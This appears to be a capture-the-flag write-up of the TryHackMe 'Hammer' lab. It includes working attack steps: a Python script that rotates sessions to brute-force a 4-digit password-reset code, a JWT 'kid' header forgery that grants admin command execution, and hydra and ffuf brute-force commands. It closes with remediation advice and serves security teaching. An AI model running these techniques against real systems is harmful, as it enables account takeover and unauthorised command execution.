








## Overview

**Hammer** ([TryHackMe](https://tryhackme.com/room/hammer)) is a web-focused box. Everything hangs off a single Apache instance on a non-standard port. A developer comment leaks the directory naming convention the app uses, which hands us a readable log directory; the logs in turn leak a valid user email and the server's web root. From there the path splits into two distinct flaws. The password-reset flow uses a 4-digit recovery code protected only by a per-session attempt counter, so rotating the session lets us spray codes until one lands — that's the first flag. Once inside, a command-execution panel is gated by a JWT whose header carries a `kid` pointing at the file used to sign it. As a normal `user` the panel only lets us run `ls`, but that's enough to spot a signing-key file sitting in the web root — and because it's under `DocumentRoot`, we can download it directly over HTTP. We point `kid` at that key, re-sign the token as `admin`, and unlock full command execution as `www-data` — that's the second flag.

The whole box is an exercise in HTTP request tampering, so Burp (or any intercepting proxy) is doing most of the work.

### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap`, `ffuf` |
| Request tampering | Burp Suite (Proxy / Repeater / Intruder) |
| OTP bruteforce | `python3` + `requests` |
| Asset inspection | `strings` |
| JWT forgery | Burp, HS256 re-signing |

---

## Enumeration

### Port scan

A default TCP scan only turns up SSH, which is never a great sign — the interesting service is usually hiding on a high port.

`nmap -T4 10.113.164.135`

```text
PORT   STATE SERVICE
22/tcp open  ssh
```

So we scan all 65535 ports.

`nmap -T4 -p- 10.113.164.135`

```text
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

Port 1337 is the one that matters. A version scan confirms it's Apache serving a login page.

`sudo nmap -sV -sC -O -p1337 10.113.164.135`

```text
PORT     STATE SERVICE VERSION
1337/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Login
```

The `PHPSESSID` cookie is set without `HttpOnly`, and the app is session-based PHP. Worth filing away — if anything is rate-limited later, it's probably keyed to that cookie rather than to our IP.

### The web app

Port 1337 is a plain login form with a *Forgot your password?* link.



The reset link leads to an email-entry form that, helpfully, tells you whether an address exists — the response differs for a known versus unknown email. That's a user-enumeration oracle, and we'll come back to it once we have an email to feed it.

Login and reset both POST their fields plainly; nothing clever on the wire yet. The more useful find is in the login page source:

```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

That's a gift. Every custom directory on this host is prefixed `hmr_`, so instead of fuzzing blind we can fuzz `hmr_FUZZ` and cut straight through the noise.

### Content discovery

`ffuf -u http://10.113.164.135:1337/hmr_FUZZ -fc 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt`

```text
css                     [Status: 301, Size: 325]
js                      [Status: 301, Size: 324]
logs                    [Status: 301, Size: 326]
images                  [Status: 301, Size: 328]
```

`hmr_logs` is the standout, and it has directory listing enabled.



A single `error.logs` file sits there. Apache error logs left web-readable are a reliable source of leaked internal detail, and this one delivers:

```text
[Mon Aug 19 12:02:34 2024] [authz_core:error] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:03:45 2024] [core:error] [client 192.168.1.20:37254] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07 2024] [authz_core:error] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18 2024] [authz_core:error] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
```

Three things come out of this:

| Leak | Value | Why it matters |
|------|-------|----------------|
| User email | `tester@hammer.thm` | A valid account to target the reset flow |
| Web root | `/var/www/html/` | Absolute paths for later file references |
| System user | `hammerthm` | A possible SSH username |

I also ran a file-focused fuzz against the web root out of habit. Nothing usable — `logout.php` and `dashboard.php` return 302 redirects (post-auth pages), and everything else is the usual `.ht*` 403s. Parked.

The `hmr_images` directory holds one file, `hammer.webp` — an AI-generated picture of a hammer. It looked like set dressing, but a webp in a CTF is worth ten seconds of `strings` before dismissing it:

```bash
strings hammer.webp | grep -iE 'pass|thm|hammer|hmr'
```

```text
EqdigitalSourceTypexFhttp://cv.iptc.org/newscodes/digitalsourcetype/trainedAlgorithmicMedia
```

Just metadata confirming it's machine-generated. No hidden data. Dead end, moving on.

I tried `hammerthm` against SSH before committing to the web path — if the box handed us a weak password there, it'd be a much shorter route:

`hydra -l hammerthm -P /usr/share/wordlists/rockyou.txt ssh://10.113.164.135`

```text
[ERROR] target ssh://...:22/ does not support password authentication (method reply 4).
```

Key-only auth, so SSH bruteforce is off the table entirely. The web app it is.

---

## Initial Access — Recovery Code Bruteforce

### Mapping the reset flow

Feeding `tester@hammer.thm` into the forgot-password form confirms the email is valid, and the server redirects us to `reset_password.php` with a session-bound recovery step.



The page asks for a 4-digit code and runs a countdown. Reading the frontend JS, the timer is 180 seconds and lives entirely client-side — it just redirects to `logout.php` when it hits zero:

```javascript
let countdownv = 180;
// ...
if (countdownv <= 0) {
    clearInterval(interval);
    window.location.href = 'logout.php';
}
```

A client-side timer isn't a real control — we can ignore or reset it at will. The submitted request carries the code plus the current countdown value:

```http
recovery_code=1234&s=169
```

Four digits is 10,000 combinations, so if there's no server-side lockout this is a straightforward bruteforce. I ran a handful of guesses by hand in one session to test the limits: the session never got blocked outright, every wrong guess just returned `Invalid or expired recovery code!`.

### Finding the real limit

The catch surfaces when you push harder with a Burp Intruder run: the session eventually stops accepting guesses, and the tell is a response header:

```http
Rate-Limit-Pending: 8
```

`Rate-Limit-Pending` controls how many tries the session has left. It starts at 8 and decrements by one on every request — GET or POST — and once it hits zero the session stops accepting guesses. So the limit is **per session, by attempt count**, not by time and not by IP. That's the important distinction, because a session is something we control: start a fresh one and we get a fresh allowance of guesses.

I confirmed the login form itself wasn't a softer target first. Straight password bruteforce against the known email went nowhere:

```bash
ffuf -w /usr/share/wordlists/rockyou.txt \
  -u http://10.113.164.135:1337/ \
  -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -H "Cookie: PHPSESSID=<SESSION>" \
  -d "email=tester%40hammer.thm&password=FUZZ" \
  -fr "Invalid" -c
```

Nothing. So the recovery code is the way in.

### Spraying across sessions

The plan writes itself: for each session, request a password reset, spray codes until `Rate-Limit-Pending` runs out, then throw the session away and start another. A quick single-threaded script does the job — not elegant, but I didn't need concurrency for a 10k keyspace.

```python
import requests, random

BASE, EMAIL = "http://10.113.164.135:1337", "tester@hammer.thm"

n = 0
while True:
    s = requests.Session()
    s.post(f"{BASE}/reset_password.php", data={"email": EMAIL}, allow_redirects=False)
    while True:
        code = f"{random.randint(0, 9999):04d}"
        r = s.post(f"{BASE}/reset_password.php",
                   data={"recovery_code": code, "s": "150"}, allow_redirects=False)
        n += 1
        pend = r.headers.get("Rate-Limit-Pending", "0")
        print(f"#{n} sess={s.cookies.get('PHPSESSID','?')[:6]} code={code} pend={pend} len={len(r.text)}")
        if r.status_code == 302 or 'name="recovery_code"' not in r.text:
            print(f"\nHIT code={code}  cookie={s.cookies.get_dict()}")
            raise SystemExit
        if pend.isdigit() and int(pend) <= 0:
            break
```

The hit condition is a change in response: a valid code drops the `recovery_code` field from the returned HTML (the page moves on to setting a new password), and the response length changes with it.

```text
#225 sess=i5kfbj code=3829 pend=0 len=2202
#226 sess=7mraht code=7281 pend=8 len=2202
#227 sess=7mraht code=7108 pend=7 len=2191   <-- len dropped

HIT code=7108  cookie={'PHPSESSID': '7mraht2f5c2bpmvlgpg5iovd9u'}
```

A valid code doesn't drop us straight onto the dashboard — it advances the reset flow to a *set a new password* form bound to that session. Dropping the winning `PHPSESSID` into the browser lands us on that form, where we set a fresh password for `tester@hammer.thm`.



From there we log in with the account and our new password, and we're on the authenticated dashboard.



> **Flag 1 — `THM{...}`** is shown on the dashboard after the auth bypass.
{: .prompt-info }

---

## Exploitation — JWT `kid` Manipulation

### The command panel

The dashboard has an *Enter command* box, and the box heading spells out our role: `user`. The frontend JS shows how it works — commands POST to `execute_command.php` with a JWT in the `Authorization` header:

```javascript
$.ajax({
    url: 'execute_command.php',
    method: 'POST',
    data: JSON.stringify({ command: command }),
    contentType: 'application/json',
    headers: { 'Authorization': 'Bearer ' + jwtToken }
});
```

Before anything else, a nuisance: the session drops after about ten seconds. The server sets a `persistentSession=no` cookie with `Max-Age=20`, and once it expires we're logged out. A Burp Proxy match-and-replace rule that rewrites the response cookie to `persistentSession=yes` and strips the expiry keeps us in.


### Decoding the token

As `user` the panel is heavily restricted — only `ls` runs; anything else (`cat`, `whoami`, and the rest) is rejected pending an `admin` role. So the JWT is the thing to attack. Decoded, the header is the interesting half:

```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/mykey.key"
}
```

```json
{
  "iss": "http://hammer.thm",
  "aud": "http://hammer.thm",
  "data": {
    "user_id": 1,
    "email": "tester@hammer.thm",
    "role": "user"
  }
}
```

The `kid` (key ID) header points at a file path on disk. The server reads the HMAC signing secret from whatever file `kid` names, then verifies the signature with it. That's the whole game: `kid` is attacker-controlled, and if we can point it at a file whose contents we know, we can forge a valid signature. The role we want to flip is `data.role` → `admin`.

### Reading the key from the web root

`ls` is the one command we *can* run as `user`, so we point it at the web root to see what's there:



`188ade1.key` jumps out — a key file sitting right in the web root next to the app. Because it's inside `DocumentRoot`, we don't need `cat` at all: the file is served directly over HTTP.

```bash
curl http://10.113.164.135:1337/188ade1.key
```

```text
<SIGNING_KEY>   # 32-character hex string
```

A 32-character hex value is exactly the shape of an HS256 secret. We now know both a valid signing key *and* its absolute path (`/var/www/html/188ade1.key`), which is everything the forgery needs. The token's own `kid` points at a different file (`/var/www/mykey.key`), but there's no need to chase it — the key we can read is enough to sign a token the server will trust, as long as we repoint `kid` at it.

### Forging the admin token

Now the forgery. Take the token and:

1. Change `kid` to the web-root path of the key we read: `/var/www/html/188ade1.key`.
2. Change `data.role` from `user` to `admin`.
3. Re-sign with HS256 using the known contents of `188ade1.key`.

The forged header:

```json
{
  "typ": "JWT",
  "alg": "HS256",
  "kid": "/var/www/html/188ade1.key"
}
```

When the server validates, it reads the secret from *our* `kid` path, gets the value we already know, and the signature checks out — as `admin`. Intercepting the `execute_command.php` request in Burp, swapping in the forged token, and running `whoami`:

```http
HTTP/1.1 200 OK
Content-Type: application/json

{"output":"www-data\n"}
```

Command execution as `www-data`.



> **Tip:** the quickest way to iterate is to send the `execute_command.php` request to Burp Repeater and work there — swap in the forged token once and just edit the `command` field between sends. To keep working in the browser instead of replaying every request by hand, add a Burp match-and-replace rule that swaps the outgoing `Authorization` bearer for the forged token on every request to `execute_command.php`.
{: .prompt-tip }

### Reading the flag

With full command execution now available (`cat` and friends work under the `admin` token), the app's own `config.php` gives up the MySQL root password for free:

```php
<?php
$host = 'localhost';
$db   = 'users';
$user = 'root';
$pass = '<DB_PASS>';   // MySQL root password, redacted
// ...
```

Handy for post-exploitation, though not needed for the flag. The `hammerthm`/`ubuntu` home directories from the log leak are the obvious place to look. Traversing out of the web root and listing `/home/ubuntu`:

```bash
cd ../../../home/ubuntu/; ls -l
```

```text
-rw-r--r-- 1 root   root      23 Aug 19 2024 flag.txt
-rwxr-xr-x 1 root   root     473 Aug 19 2024 test.sh
```

```bash
cat /home/ubuntu/flag.txt
```

> **Flag 2 — `THM{...}`** is read from `/home/ubuntu/flag.txt`.
{: .prompt-info }

---

## Conclusion

Hammer chains four weaknesses, each interesting on its own:

1. **Information disclosure via source comment and logs** — an HTML comment leaked the `hmr_` directory convention, and a web-readable Apache `error.logs` handed over a valid email, the web root path, and a system username.
2. **User-enumeration oracle** — the password-reset form confirms which emails exist, letting an attacker target a known-good account.
3. **Broken rate limiting on the recovery code** — the 4-digit code was protected only by a per-session attempt counter (`Rate-Limit-Pending`). Rotating sessions resets the allowance, so the 10k keyspace is fully sprayable.
4. **JWT `kid` manipulation** — the signing key was loaded from an attacker-controlled `kid` header pointing at a file whose contents were readable through the app itself, allowing a forged `admin` token and command execution as `www-data`.

### Remediation notes

- Never leave `.log` files or any internal artifact under the web root; serve logs from outside `DocumentRoot` and block direct access.
- Return an identical response for known and unknown emails in reset flows — no timing or content oracle.
- Rate-limit recovery codes on a server-trusted identifier (account plus source IP), enforce a hard cap that a new session can't reset, and use codes with enough entropy that spraying isn't viable.
- Do not resolve JWT signing keys from a client-supplied `kid` path. Pin the key server-side, and if `kid` is used at all, validate it against an allow-list of key IDs — never treat it as a filesystem path.
- Keep secrets and key files out of the web root entirely, so a file-read primitive can't expose them.

### Full attack chain


